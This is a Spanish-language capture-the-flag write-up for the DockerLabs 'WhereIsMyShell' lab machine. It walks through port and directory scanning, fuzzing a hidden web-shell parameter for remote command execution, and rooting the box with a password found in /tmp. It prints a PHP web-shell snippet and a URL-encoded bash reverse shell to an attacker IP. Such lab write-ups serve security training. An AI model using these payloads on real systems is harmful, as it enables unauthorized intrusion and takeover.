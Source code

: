 # Máquina WhereIsMyShell

---------------------

Dificultad -> Medium

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)
## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada al puerto 80.

```shell
nmap -sCV -p80 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Academia de Ingl\xC3\xA9s (Inglis Academi)
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Vemos la versión de Apache y un título de la web. Accedemos a la web para seguir inspeccionando:

![Pasted image 20240412230806](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/6fe4e0bb-3e2d-48e8-9239-3457fdadcf10)

Encontramos esta web sobre la que no podemos interactuar en ningún aspecto.
Al final del todo encontramos una pequeña pista.

![Pasted image 20240412230913](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/1ce153dd-3323-4818-a2d4-fcd87759e3b6)

Más adelante veremos si esta información nos sirve para algo o no.

Como de costumbre, aplicamos **fuzzing** de directorios para intentar descubrir algún directorio interesante con la herramienta **gobuster**.
Indicaremos también que queremos descubrir archivos con extensión php, txt, html, php.bak. Mediante el parámetro "**-x**"

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,txt,html,php.bak
________________________________________________
/index.html           (Status: 200) [Size: 2510]
/shell.php            (Status: 500) [Size: 0]   
/warning.html         (Status: 200) [Size: 315] 
/server-status        (Status: 403) [Size: 275] 
```

Encontramos dos archivos interesantes: **warning.html** y **shell.php**

-----------
## Explotación

Inspeccionamos **warning.html**:

![Pasted image 20240412231456](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/c0266fb2-3fa6-4e35-8915-25f023b805d8)

Esto nos da una pista.
Suponemos que el otro archivo (**shell.php**), tiene una estructura similar a:

```php
<?php
	system($_GET['cmd']);
?>
```

Pero desconocemos el nombre del parámetro que se usa en **shell.php**. Es decir, el parámetro "**cmd**" para el ejemplo de arriba.

Lo que vamos a hacer es **Fuzzear** con un diccionario, para descubrir cuál es ese parámetro que nos da una respuesta.
En este caso he decidido emplear **wfuzz**.
Donde usamos 200 hilos ("-t 200") para ir muy rápido, un diccionario típico de [SecLists](https://github.com/danielmiessler/SecLists), la macro **FUZZ** que se reemplazará con las palabras de la lista especificada anteriormente. Es decir, estaremos tratando de ejecutar el comando **id** para cada parámetro posible en la url.

```shell
wfuzz -c -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=id"
--------------------------------------
000000020:   500        0 L      0 W        0 Ch        "crack"                                                                                                                                  
000000001:   500        0 L      0 W        0 Ch        "# directory-list-2.3-medium.txt"                                                                                                       
000000018:   500        0 L      0 W        0 Ch        "2006"                                                                                                       
000000003:   500        0 L      0 W        0 Ch        "# Copyright 2007 James Fisher"                                                                         
000000015:   500        0 L      0 W        0 Ch        "index"                         
```

Nos está reportando todos los resultados erróneos. Como todos los parámetros que no nos funcionan devuelven 0 líneas en la respuesta, vamos a ocultar los resultados que devuelvan ese número de líneas. Esto lo podemos hacer con el parámetro **--hl=0**.

```shell
wfuzz -c --hl=0 -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://172.17.0.2/shell.php?FUZZ=id"
-------------------------------------
000115401:   200        2 L      4 W        66 Ch       "parameter"     
```

Vemos que el parámetro -> "**parameter**" con el comando **id** que le hemos pasado, nos devuelve 2 líneas a diferencia del resto. Nos dirigimos a la web a comprobar que funciona y efectivamente hemos logrado un **RCE**. (Ejecución remota de comandos).
Nos dirigimos a la web y lo comprobamos:

![Pasted image 20240412233935](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/23082e2d-ccfd-42eb-b5a8-a5e82ec722bf)

Como de costumbre, nos enviamos una **Reverse shell** para ganar acceso a la máquina:

Nos ponemos en escucha por el puerto 443 con **netcat**:

```shell
nc -nlvp 443
```

(Es posible que para escuchar con netcat por el puerto 443 necesites ser el usuario root)

Y en la URL vulnerable:

```
http://172.17.0.2/shell.php?parameter=bash -c "bash -i >%26 /dev/tcp/192.168.10.150/443 0>%261"
```

Los **"%26"** corresponden al símbolo **"&"** de forma URL-encodeada para que no den conflicto. Y siendo la **192.168.10.150** la **IP** de mi máquina atacante.

Hemos ganado acceso a la máquina:

![Pasted image 20240412234748](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/6ea678df-bb8c-4ed4-b3bb-4ecca28edbb8)

---------------
### Tratamiento de la tty

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```
(hacemos  **ctrl  +  Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina.
Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

------------

## Escalada de privilegios

Según la pista que nos dieron al principio de este reto, acerca del directorio **/tmp**. Comprobamos su contenido. Usamos "**ls -la**" para listar posibles ficheros o directorios ocultos.

```shell
cd /tmp
ls -la
---------------------------------
total 4
drwxrwxrwt 1 root root  22 Apr 12 23:04 .
drwxr-xr-x 1 root root 152 Apr 12 23:04 ..
-rw-r--r-- 1 root root  21 Apr 12 16:07 .secret.txt
```

Veamos que encontramos en el txt llamado **.secret.txt**

```shell
cat .secret.txt
----------------------------------
contraseñaderoot123
```

Nos otorga una contraseña para el usuario **root** directamente.

```shell
su root
```

Introducimos la contraseña -> **contraseñaderoot123**

```shell
whoami
----------------------------------
root
```

¡ Hemos logrado el nivel de privilegios máximo sobre la máquina !

